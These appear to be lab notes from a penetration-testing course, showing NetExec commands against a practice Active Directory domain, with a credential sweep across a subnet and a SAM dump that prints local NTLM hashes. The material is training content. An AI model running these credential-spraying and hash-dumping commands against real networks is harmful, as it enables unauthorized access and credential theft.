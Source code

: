     ```Bash
    ┌─[root@parrot]─[/home/z3tssu/TCM]
    └──╼ \#netexec smb 192.168.213.0/24 -u fcastle -d marvel.local -p Password@01
    SMB         192.168.213.130 445    PUNISHER         [*] Windows 10 / Server 2019 Build 19041 x64 (name:PUNISHER) (domain:marvel.local) (signing:False) (SMBv1:False)
    SMB         192.168.213.132 445    IRONMAN          [*] Windows 10 / Server 2019 Build 19041 x64 (name:IRONMAN) (domain:marvel.local) (signing:False) (SMBv1:False)
    SMB         192.168.213.158 445    HYDRA-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HYDRA-DC) (domain:marvel.local) (signing:True) (SMBv1:False)
    SMB         192.168.213.132 445    IRONMAN          [+] marvel.local\fcastle:Password@01 (Pwn3d!)
    SMB         192.168.213.158 445    HYDRA-DC         [+] marvel.local\fcastle:Password@01 
    SMB         192.168.213.130 445    PUNISHER         [+] marvel.local\fcastle:Password@01 (Pwn3d!)
    Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
    ```
    
    ![[/image 63.png|image 63.png]]
    
    - Targeted machines:
        - `Hydra DC` → No SMB access.
        - `Spider-Man` → Access gained (user credentials valid).
        - `Punisher` → Previously known; reconfirmed access.

---

### Netexec - Dumping the SAM Example

```Bash
nxc smb 192.168.213.0/24 -d marvel.local -u fcastle -p Password@01 --sam
```

### Output

```Bash
┌─[root@parrot]─[/home/z3tssu/TCM/impacket]
└──╼ \#nxc smb 192.168.213.0/24 -d marvel.local -u fcastle -p Password@01 --sam
SMB         192.168.213.130 445    PUNISHER         [*] Windows 10 / Server 2019 Build 19041 x64 (name:PUNISHER) (domain:marvel.local) (signing:False) (SMBv1:False)
SMB         192.168.213.158 445    HYDRA-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HYDRA-DC) (domain:marvel.local) (signing:True) (SMBv1:False)
SMB         192.168.213.132 445    IRONMAN          [*] Windows 10 / Server 2019 Build 19041 x64 (name:IRONMAN) (domain:marvel.local) (signing:False) (SMBv1:False)
SMB         192.168.213.130 445    PUNISHER         [+] marvel.local\fcastle:Password@01 (Pwn3d!)
SMB         192.168.213.158 445    HYDRA-DC         [+] marvel.local\fcastle:Password@01 
SMB         192.168.213.132 445    IRONMAN          [+] marvel.local\fcastle:Password@01 (Pwn3d!)
SMB         192.168.213.130 445    PUNISHER         [*] Dumping SAM hashes
SMB         192.168.213.132 445    IRONMAN          [*] Dumping SAM hashes
SMB         192.168.213.130 445    PUNISHER         Administrator:500:aad3b435b51404eeaad3b435b51404ee:627a55d9b030f24af2c8f1a73a8b079a:::
SMB         192.168.213.130 445    PUNISHER         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.213.130 445    PUNISHER         DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.213.132 445    IRONMAN          Administrator:500:aad3b435b51404eeaad3b435b51404ee:627a55d9b030f24af2c8f1a73a8b079a:::
SMB         192.168.213.132 445    IRONMAN          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.213.130 445    PUNISHER         WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:16f0162fe46f7f1af9939f27ad5a8d6d:::
SMB         192.168.213.130 445    PUNISHER         [+] Added 4 SAM hashes to the database
SMB         192.168.213.132 445    IRONMAN          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.213.132 445    IRONMAN          WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:16f0162fe46f7f1af9939f27ad5a8d6d:::
SMB         192.168.213.132 445    IRONMAN          nanty:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```